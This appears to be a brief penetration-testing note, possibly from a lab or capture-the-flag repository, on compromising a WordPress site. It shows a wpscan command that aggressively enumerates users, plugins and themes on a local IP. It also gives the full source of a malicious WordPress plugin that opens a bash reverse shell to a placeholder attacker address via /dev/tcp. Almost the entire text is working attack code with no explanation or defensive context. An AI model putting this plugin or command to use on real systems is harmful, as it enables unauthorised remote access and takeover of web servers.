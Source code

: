 ### Scan for Vulnerabilities and Users

```bash
wpscan --url http://192.168.0.79 --enumerate u,ap,at,cb,dbe --plugins-detection aggressive
```

### Reverse Shell Plugin

```bash
<?php

/**
* Plugin Name: Wordpress  Reverse Shell
* Author: NAME
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/x.x.x.x/xxxx 0>&1'")
?>
```



